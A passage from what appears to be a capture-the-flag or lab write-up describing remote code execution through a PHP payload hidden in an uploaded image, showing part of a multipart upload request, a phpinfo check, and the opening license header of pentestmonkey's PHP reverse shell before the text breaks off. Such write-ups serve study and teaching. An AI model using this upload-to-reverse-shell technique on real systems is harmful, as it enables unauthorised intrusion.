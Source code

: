 ```
-----------------------------111958055738807808153872908216
Content-Disposition: form-data; name="_method"



PUT
-----------------------------111958055738807808153872908216--
```

The new picture we uploaded does not render within main application however when we browse to the image itself we would see that the phpinfo page does render.

![Phpinfo](/assets/img/Usage/usage_06.png)


So seeing this we know that we can execute arbitrary php code. next step would be to put a reverse shell in this payload instead of the phpinfo page. I used the following reverse shell script from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)


```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
```